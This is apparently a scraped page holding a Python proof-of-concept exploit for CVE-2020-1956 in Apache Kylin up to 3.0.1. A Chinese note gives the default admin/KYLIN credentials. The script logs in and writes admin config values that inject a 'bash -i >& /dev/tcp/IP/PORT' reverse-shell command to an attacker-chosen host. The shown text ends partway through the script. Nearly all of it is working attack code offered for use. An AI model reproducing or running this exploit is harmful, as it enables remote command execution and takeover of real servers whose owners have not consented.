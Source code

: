 **POC 利用前提是拥有账号密码，默认账号密码是 admin/KYLIN**

```
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech
import requests
import base64
import sys
def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')
def POC_1(target_url):
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))
    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
        else:
            print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
            return response.cookies["JSESSIONID"],Authorization
    except:
        print("\033[31m[x] 漏洞利用失败\033[0m")
        sys.exit(0)
def POC_2(target_url, cookie, IP, PORT, Authorization):
    config_url = target_url + "/kylin/api/admin/config"
    key = ["kylin.tool.auto-migrate-cube.enabled","kylin.tool.auto-migrate-cube.src-config","kylin.tool.auto-migrate-cube.dest-config"]
    value = ["true","echo;bash -i >& /dev/tcp/{}/{} 0>&1;echo".format(IP, PORT), "shell"]
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID="+cookie
    }
    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
```
